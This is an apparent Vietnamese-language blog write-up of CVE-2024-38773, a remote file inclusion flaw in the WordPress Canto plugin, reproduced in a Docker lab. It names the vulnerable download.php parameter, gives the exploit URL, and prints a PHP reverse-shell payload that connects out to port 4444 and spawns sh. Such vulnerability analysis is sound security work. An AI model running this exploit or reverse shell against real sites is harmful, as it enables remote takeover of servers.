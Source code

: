 ```yaml
---
layout: post
title:  "CVE-2024-38773 Analysis"
date:   2025-10-30 21:44:56 +0700
categories: wordpress
---
```

# Info:

Type: Remote Code Execution

Plugin Name: **Canto**

Version: < 3.0.7

**Base Score:** [**9.8 CRITICAL**](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2024-38773&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)

**Vector:**  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

NIST: [NIST](https://nvd.nist.gov/vuln/detail/CVE-2024-38773)

WPScan: [WPScan](https://wpscan.com/vulnerability/1595af73-6f97-4bc9-9cb2-14a55daaa2d4/)

# PoC:

Khởi chạy wordpress trên docker cổng 9000 sau đó thực hiện cài đặt thư viện canto v3.0.6.

Tại thư mục lib của thư viện các file đang thực hiện gọi đến trang `/wp-admin/admin.php` thông qua lệnh `require_once urldecode($_REQUEST['wp_abspath']) . '/wp-admin/admin.php';`

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image.png)

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-2.png)

Lệnh `require_once urldecode($_REQUEST['wp_abspath']) . '/wp-admin/admin.php';` có mục đích tải nội dung của file admin.php vào trang hiện tại. Ví dụ khi người dùng truyền vào `?wp_abspath=/etc/passwd`  thì đường dẫn được require_once vào code sẽ trở thành `require_once '/etc/passwd/wp-admin/admin.php';`. Kiểm tra lại trên code bằng cách debug như sau

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-3.png)

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-4.png)

Tại vị trí này, ta có thể thấy đây là lỗ hổng LFI nhưng khó để khai thác vì code mặc định luôn thêm đường dẫn `/wp-admin/admin.php` vào phía sau payload dẫn đến đường dẫn không tồn tại trong hệ thống. Khi gửi request thì hệ thống sẽ trả về status 500

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-5.png)

Tuy không đọc được file bằng đường dẫn nội bộ nhưng ta có thể tạo server chứa file mã độc và cho hệ thống thực hiện require_once:

Thực hiện tạo server trả về code php

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-6.png)

Khởi tạo cho poc chạy trên cổng 6000 bằng lệnh: `php -S 0.0.0.0:6000` 

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-7.png)

Vì bài lab đang sử dụng wordpress chạy trên docker nên ta sẽ phải thực hiện thay địa chỉ local thành ip theo dải của docker. Tức là thay vì truy cập đến localhost, ta sẽ truy cập đến dải IP 172.17.0.1 của docker. Thực hiện truy cập đến đường dẫn `http://localhost:9000/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.17.0.1:6000`

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-8.png)

Thực hiện tạo reverse shell bằng payload.

```
<?php
header("Content-Type: text/plain");

echo '<?php $sock=fsockopen("172.17.0.1",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>';
```

![image.png]({{ site.url }}/assets/images/CVE-2024-25096/image-2.png)

### Lưu ý: Cách khai thác này chỉ thành công nếu trong cấu hình php của server wordpress có `allow_url_include = On`